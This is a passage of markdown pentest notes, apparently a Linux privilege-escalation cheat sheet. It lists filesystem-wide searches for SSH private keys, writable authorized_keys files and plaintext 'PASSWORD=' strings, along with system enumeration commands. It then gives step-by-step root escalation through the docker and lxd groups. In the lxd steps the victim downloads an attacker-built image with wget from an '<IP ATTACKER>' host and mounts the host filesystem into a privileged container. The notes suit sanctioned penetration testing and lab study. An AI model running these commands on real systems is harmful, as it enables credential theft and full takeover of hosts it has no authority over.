 	- `find / -name "*.conf" -exec ls -l {} \; 2>/dev/null`
- directory
	- *.ssh*
		- `find / -name ".ssh" -type d -exec ls -l {} \; 2>/dev/null`
		- private key: `find / -name id_rsa -exec ls -l {} \; 2>/dev/null`
		- `authorized_keys` writable: `find / -name authorized_keys  -exec ls -l {} \; 2>/dev/null`
	- *.git*
		- `find / -name '.git' -type d 2>/dev/null`
	- *opt*
		- `ls -la /opt`
	- various (backup file, users mail, *root* files):
		- `ls -la /tmp /var/tmp /dev/shm /var/backups /var/mail/ /var/spool/mail/ /root 2>/dev/null`
- searching `password=` into all files:
	- `grep --color=auto -rnw '/' -ie "PASSWORD=" --color=always 2> /dev/null`
- groups:
	- identify *sudoer* users
	- `cat /etc/group`
- *iptables*:
	- `ls -l /etc/iptables`
	- `cat /etc/iptables/rules.v4`
- disk and filesystem:
	- drives mounted at *boot time*: `cat /etc/fstab`
	- mounted filesystem: `mount`
	- disks and partitions: `lsblk`
	- kernel modules: `lsmod`
- network information:
	- `ip a` or `ifconfig`
	- `route` or `routel`
- environment variables:
	- `env` e/o `printenv`
- *concept takeaways*:
	- verify the privileges of running apps. Webapps or databases executed by privileged users are 'easy' vectors of *privesc*.
# Groups

## docker

Steps:
1. (optional, list of available docker images) `docker images`
2. `docker run -v /:/mnt --entrypoint /bin/bash --rm -it <any available online (alpine)/offline images>`

## lxd

Steps:
- *attacker*:
	- `git clone https://github.com/saghul/lxd-alpine-builder.git`
	- `cd lxd-alpine-builder`
	- `sudo ./build-alpine`
	- `python -m http.server`
- *victim*:
	- `wget <IP ATTACKER>:<PORT HTTP SERVER> <file tar.gz>`
	- `lxc image import ./alpine-v3.17-x86_64-20230407_1145.tar.gz --alias myimage`
	- `lxc image list`
	- `lxd init`
	- `lxc init myimage ignite -c security.privileged=true`
	- `lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true`
	- `lxc start ignite`
	- `lxc exec ignite /bin/sh`
	- filesystem host system is available in `/mnt/root/`

